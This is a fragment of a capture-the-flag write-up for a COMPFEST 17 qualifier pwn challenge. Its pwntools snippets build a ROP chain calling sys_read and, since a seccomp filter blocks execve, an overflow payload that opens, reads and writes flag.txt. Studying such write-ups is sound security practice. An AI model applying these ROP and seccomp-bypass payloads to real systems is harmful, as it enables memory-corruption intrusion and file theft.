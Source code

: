 
So just call `sys_read` where `libc.bss()` and also `libc.bss()` is the `rsp` then recall the `sys_read` where `rdx` is updated.
```python
rop = ROP(libc)
rop.rax = 0
rop.rdx = 0x200
rop.raw(nsa(libc, "syscall ; ret"))
sla("detective!", rop.chain())
```

In this challenges there is also a seccomp where it doesn't allow `execve` and `execveat`.

![alt](../../../img/CTFNational/COMPFEST_17_CTF_Qual/Seccomp.png)


But we can still do `orw` so just overflow it to `orw` flag.txt

```python
offset = 0x30
payload = flat({offset: [orw(libc.bss() + 0xd8) + b"flag.txt\0"]})
sl(payload)
```
